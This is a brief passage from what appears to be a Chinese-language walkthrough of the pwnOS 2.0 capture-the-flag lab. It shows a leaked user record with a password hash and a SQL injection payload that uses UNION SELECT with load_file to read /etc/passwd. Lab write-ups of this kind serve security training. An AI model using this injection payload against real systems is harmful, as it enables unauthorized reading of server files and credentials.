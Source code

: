 查询：

![](/img/game/pwnos2.0/1511854629399.png)

得到用户名和密码：

```bash
1:Dan:Privett:admin@isints.com:c2c4b4e51d9e23c02c15702c136c3e950ba9a4af:0`
```

但是密码不能解出。

使用


```sql
' union select 1,2,3,load_file('/etc/passwd'),5,6,7,8-- -
```


查看`/etc/passwd`文件:

![Alt text](/img/game/pwnos2.0/1511854896298.png)

